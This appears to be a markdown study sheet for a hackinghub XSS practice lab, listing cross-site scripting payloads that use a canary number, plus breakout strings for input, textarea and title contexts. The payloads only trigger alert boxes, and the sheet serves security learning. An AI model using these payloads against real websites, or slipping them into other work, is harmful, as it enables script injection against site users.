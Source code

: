 # hackinghub  

## xss  
[https://app.hackinghub.io/hubs/nbbc-xss](https://app.hackinghub.io/hubs/nbbc-xss)  

### basic xss  

The number `19628397001` in the examples below is just a random number that can be used as a [canary](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/settings/canary) to search proxy history for the value.  

Try to start with simple payload like `<h1>19628397001` to see what happens.  

```
<script>alert(19628397001)</script>
<script>alert(19628397001)
<script>alert(19628397001);//</script>
<script>confirm(19628397001);//</script>
<img src=xxxxx onmouseover=alert(19628397001)>
<img src=xxxxx onerror=alert(19628397001)>
<a href=javascript:alert(19628397001)>xsstest</a>
<a href=javascript:alert(19628397001)>xsstest
<iframe src=javascript:alert(19628397001)>
<object data="data:text/html,<script>alert(19628397001)</script>"></object>
<script src="data:text/javascript,alert(19628397001)"></object>
</p><h1><u/onmouseover=alert(1)>19628397001
```  

### contexts  

#### input example  

value inside an input:  
`<input value="19628397001">`  

try to break out with a payload like...    
```
test"><script>alert(19628397001)</script>
```  

or use an event like this...  
```
test" onmouseover=alert(19628397001);//
```  

#### textarea example   

value inside a textarea:  
`<textarea>19628397001</textarea>`  

try to break out with a payload like...  
```
test</textarea><img/src=x onerror=alert(19628397001)>
```  

#### title example  

value inside a title:  
`<title>Welcome, 19628397001</title>`  

try to break out with a payload like...  
```
test</title><img/src=x onerror=alert(19628397001)>
```  
